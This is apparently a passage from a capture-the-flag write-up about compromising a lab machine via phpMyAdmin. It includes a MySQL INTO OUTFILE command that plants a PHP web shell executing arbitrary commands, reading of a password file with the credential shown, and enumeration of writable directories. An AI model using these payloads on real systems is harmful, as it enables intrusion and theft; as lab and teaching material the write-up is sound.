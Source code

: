 However, I can't identify the kind of hashing..

Usually MySQL5 Hash follows this pattern:
![[Pasted image 20240422164245.png]]
But it doesn't seem to be the case.

In the "Variables" tab:
![[Pasted image 20240511172423.png]]
we can find the version of the PHPMyAdmin server:
![[Pasted image 20240511172400.png]]

By following this [guide](https://medium.com/@959652664/summary-and-analysis-of-penetration-testing-based-on-phpmyadmin-784896851cf9), to make MySQL execute commands like the following one (it appears we have writing permissions in the directory `/var/www/forum/templates_c`):
```mysql
select "<html> <body> <form method='GET' name='<?php echo basename($_SERVER['PHP_SELF']); ?>'> <input type='TEXT' name='cmd' id='cmd' size='80'> <input type='SUBMIT' value='Execute'> </form> <pre> <?php if(isset($_GET['cmd'])) { system($_GET['cmd']); } ?> </pre> </body> <script>document.getElementById('cmd').focus();</script> </html>" into outfile "/var/www/forum/templates_c/test.php"
```
![[Pasted image 20240423142613.png]]

![[Pasted image 20240423142630.png]]

And we can find a webshell at [this address](https://192.168.56.101/forum/templates_c/test.php):
![[Pasted image 20240423142903.png]]

At the same time, by inserting and executing th code snippet:
```mysql
select "<?php phpinfo();?>" into outfile "/var/www/forum/templates_c/intrusive.php"
```
we have access to:
![[Pasted image 20240511175308.png]]

Typing:
```shell
cd /home/LOOKATME && cat password
lmezard:G!@M6f4Eatau{sF"

find / -perm -003 -type d 2>/dev/null # 4 for r, 2 for w, 1 for x
 /run/shm
/run/lock
/tmp
/tmp/.ICE-unix
/tmp/.X11-unix
/var/crash
/var/lib/php5
/var/tmp
/var/www/forum/templates_c
/rofs
/rofs/tmp
/rofs/var/crash
/rofs/var/lib/php5
/rofs/var/tmp
/rofs/var/www/forum/templates_c

find / -user www-data 2>/dev/null
```
